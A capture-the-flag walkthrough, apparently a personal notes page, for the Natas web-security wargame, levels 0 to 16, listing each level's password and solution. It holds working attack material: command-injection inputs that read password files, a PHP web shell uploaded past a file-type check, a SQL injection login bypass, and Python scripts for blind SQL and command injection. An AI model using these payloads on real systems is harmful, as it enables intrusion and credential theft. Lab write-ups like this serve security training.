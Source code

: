 # Web
## Natas Wargame
* level 0
  * Username: natas0
  * Password: natas0
  * [URL] (http://natas0.natas.labs.overthewire.org)
  
* level 1
  * While seeing the source code we find the flag as comment.
  * The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto

* level 2
  * While seeing the source code we find the flag as comment.
  * The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
 
* level 3
  * In source code we find a png file containing a pixel, so opening it's directory gives us the user.txt file containing flag.
  * natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* level 4
  * While seeing the source code we find the flag as comment.
  * natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* level 5
  * The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
  * Installed burp suit & foxy proxy and referrer was changed to natas5 in url the refresh gives the flag.

* level 6
  * The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
  * again in burpsuit the value of 0 turned to 1

* level 7
  * $secret = "FOEIUWGHFEEUHOFUOIU"; entering this gives
  * Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

* level 8
  * natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
  * view the link given source code.
  * encodedSecret = "3d3d516343746d4d6d6c315669563362";
  * DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
  ```php
  PHP CODE:<?
  print base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
  ?> 
  ```
  * OUTPUT: oubWYf2kBq

* level 9
  * Access granted.The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
  * ;ls  ;cat /etc/natas_webpass/natas10    giving this in the field and searching gives us  nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* level 10
  * .* /etc/natas_webpass/natas11 #   when given in the search gives us the password.
  * /etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* level 11
  * The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
  ```php
  <?
  $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sF0cIaAw');
  $text = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
  $outText = ''; 
  // Iterate through each character
  for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];}
  print $outText;
  ?>
  ```
  * Output:  qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!nJq
  ```php
  <?
  $key = 'qw8J';
  $text = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
  $outText = '';
  // Iterate through each character
  for($i=0;$i<strlen($text);$i++) {
  $outText .= $text[$i] ^ $key[$i % strlen($key)];}
  print base64_encode($outText);
  ?>
  ```
  * Output:  ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

* level 12
  * create an xyz.php file with contents as:
  ```php
  <?
  passthru($_GET['cmd']);
  ?>
  ```
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas13
  * jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

* level 13
  * create an ab.php file with contents as:
  ```php
  <?
  passthru($_GET['cmd']);
  ?>
  ```
  * Using hex editor did mention spaces FF D8 FF E0
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas14
  * ����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* level 14
  * sqli injection
  * Username and password given as: " or "1"="1
  * Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* level 15
  * create a python script
  ```py
  import requests
  import sys
  from string import digits, ascii_lowercase, ascii_uppercase

  url = "http://natas15.natas.labs.overthewire.org/"
  charset = ascii_lowercase + ascii_uppercase + digits
  sqli = 'natas16" AND password LIKE BINARY "'

  s = requests.Session()
  s.auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

  password = ""
  while len(password) < 32:
    for char in charset:
        r = s.post('http://natas15.natas.labs.overthewire.org/', data={'username':sqli + password + char + "%"})
        if "This user exists" in r.text:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break
  ```
  * Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

* level 16
  * create a python script
  ```py
  import requests
  import sys
  from string import digits, ascii_lowercase, ascii_uppercase

  charset = ascii_lowercase + ascii_uppercase + digits
  s = requests.Session()
  s.auth = ('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

  password = ""
  while len(password) < 32:
    for char in charset:
        payload = {'needle': '$(grep -E ^%s.* /etc/natas_webpass/natas17)' % (password + char)}
        r = s.get('http://natas16.natas.labs.overthewire.org/index.php', params=payload)

        if len(r.text) == 1105:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break
  ```
  * Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq 
